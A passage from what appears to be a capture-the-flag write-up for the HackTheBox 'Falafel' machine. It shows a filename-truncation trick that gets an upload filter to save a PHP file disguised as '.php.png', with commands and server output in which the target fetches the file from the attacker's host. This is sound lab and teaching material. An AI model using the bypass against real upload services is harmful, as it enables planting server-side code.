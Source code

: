 The name is too long for the application, so the application truncated the filename to the maximum length it can accept. Let’s see what that length is.

```text
ali:~/Desktop/htb/falafel# echo aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa | wc -c
237
```

Alright, so the application only accepts a filename with 237 characters. Anything beyond that gets truncated. So what we’ll do is create a filename of length 237 that ends with the extension “_.php_”, then add the extension “_.png_” to the file. Since this exceeds the file limit, the “_.png_” extension will get truncated, and we’ll be left with our php file.

```text
root@kali:~/Desktop/htb/falafel# mv test.php aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.php.png
```

Upload the file and view the output message.

```text
<h1>Upload via url:</h1>  
<div>  
<h3>Upload Succsesful!</h3> 
<div>  
<h4>Output:</h4>  
<pre>CMD: cd /var/www/html/uploads/0202-1852_127546ec6e8c49a3; wget 'http://10.10.14.12:5555/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.php.png'</pre>  
        
<pre>The name is too long, 240 chars total.
Trying to shorten...
New name is aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.php.
--2020-02-02 18:52:45--  http://10.10.14.12:5555/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.php.png
Connecting to 10.10.14.12:5555... connected.
HTTP request sent, awaiting response... 200 OK
Length: 208 [image/png]
Saving to: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.php'
0K                                                       100% 29.9M=0s2020-02-02 18:52:45 (29.9 MB/s) - 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.php' saved [208/208]
</pre>
</div>
```
